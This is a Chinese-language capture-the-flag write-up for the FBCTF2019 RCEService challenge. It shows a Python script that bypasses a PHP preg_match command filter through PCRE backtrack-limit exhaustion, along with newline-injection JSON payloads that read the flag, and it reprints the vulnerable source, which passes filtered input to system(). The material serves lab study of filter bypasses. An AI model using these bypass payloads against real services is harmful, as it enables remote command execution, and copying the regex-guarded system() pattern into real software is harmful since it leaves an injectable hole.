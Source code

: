 # [FBCTF2019]RCEService

## 知识点

`preg_match回溯次数限制绕过`

`preg_match多行绕过`

## 解题

进入题目首页看到

![alt text](img/[FBCTF2019]RCEService-1.png)

简单传了一个`json`格式的`RCE` `{"cmd":"ls"}`

![alt text](img/[FBCTF2019]RCEService-2.png)

### 1.PCRE回溯次数限制绕过

发现可以执行命令，但是后续进一步全被过滤了，尝试使用[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)，因为这题`GET`和`POST`传值均可，但是只能`POST`传，`GET`传值会`414`，而且要用绝对路径的命令，相对路径其实后面在源码里重新修改了环境变量导致相对路径的变量不可用，即`cat`变为`/bin/cat`，`payload`如下

```python
import requests

payload = '{"cmd":"/bin/cat index.php","a":"' + 'a'*1000000 + '"}'
resp = requests.post('http://ca5c3751-06a2-4388-8294-c272e1775a7f.node5.buuoj.cn:81/', data={"cmd":payload})
print(resp.text)
```

![alt text](img/[FBCTF2019]RCEService-3.png)

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

因为根目录没有找到`flag`，看到设置了环境变量的路径，找了一下,`/bin/ls /home/rceservice/`，发现`flag`在`/home/rceservice`下
直接`/bin/cat /home/rceservice/flag`即可获取`flag`

看到源码还有另一种方法

### 2.preg_match绕过

因为`preg_match`只能匹配单行，我们多行绕过即可

```
{%0a"cmd":"ls"%0a}

{%0a"cmd":"/bin/cat /home/rceservice/flag"%0a}
```

![alt text](img/[FBCTF2019]RCEService-4.png)